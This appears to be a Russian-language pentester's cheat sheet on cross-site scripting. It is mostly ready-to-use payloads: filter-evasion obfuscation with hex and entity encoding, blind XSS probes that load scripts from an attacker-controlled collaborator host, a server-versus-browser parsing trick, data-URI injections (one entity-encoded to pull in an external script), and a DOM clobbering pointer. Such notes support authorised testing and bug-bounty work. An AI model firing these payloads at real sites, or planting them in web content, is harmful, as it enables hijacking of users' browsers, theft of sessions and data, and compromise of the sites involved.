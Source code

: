 ## Обфускация

- против регулярок - переносы строк, смена регистра
- внутри HTML-атрибутов и SVG-тегов можно использовать XML/HTML entity encoding
- названия функций можно кодировать в UTF  `\u00 + 'Щ'.charCodeAt(0).String(16)`
- в функцию можно передать hex-энкод:

```js
setTimeout`\x61\x6c\x65\x72\x74\x28\x31\x29\` 
```

## Blind XSS

```
"><img src=burpcollab> - 1) отстук подтверждает HTML инъекцию (можно взять другой тэг с src на случай сторгой CSP)
"><img/src/onerror=fetch(burpcollab,{mode:'no-cors'})> - 2) отстук подтверждает выполнение js
"><script src=burpcollab></script> - 3) CSP не блокирует загрузку внешних скриптов
```

```
</script><svg/onload='+/"/+/onmouseover=1/+(s=document.createElement(/script/.source), s.stack=Error().stack, s.src=(/,/+/yourcollaboratordomain/).slice(2), document.documentElement.appendChild(s))//'>
```

## Server-side

by [slonser](https://t.me/slonser_notes)

Содержимое этих тегов не обрабатывается как html теги:
```
iframe
noembed
noframes
noscript
plaintext
title
textarea
```
Соответственно при вводе:
```html
<textarea><a href="x></textarea><img src=x onerror=alert()//">
```
Результат парсинга на серверной стороне будет выглядеть следующим образом:
```html
textarea
a
  ->href: x></textarea><img src=x onerror=alert()//
```
В то время как в браузере это будет выглядеть следующим образом:
```html
<textarea>&lt;a href="x&gt;</textarea><img src="x" onerror="alert()//&quot;">
```

## Off-domain XSS

```
<img src="data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+Cg==">
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+Cg==">
```xml
<a src="data:javascript,alert(1)" href="javascript:alert(2)"></a>
<a href=java&#1&#2&#3&#4&#5&#6&#7&#8&#11&#12script:javascript:alert(1)>XXX</a>
<a href="data:text/html;blabla,&#60&#115&#99&#114&#105&#112&#116&#32&#115&#114&#99&#61&#34&#104&#116&#116&#112&#58&#47&#47&#115&#116&#101&#114&#110&#101&#102&#97&#109&#105&#108&#121&#46&#110&#101&#116&#47&#102&#111&#111&#46&#106&#115&#34&#62&#60&#47&#115&#99&#114&#105&#112&#116&#62&#8203">Click Me</a>
<embed src="data:text/html;base64,%(base64)s">
```

## DOM XSS

### DOM Clobbering

https://domclob.xyz/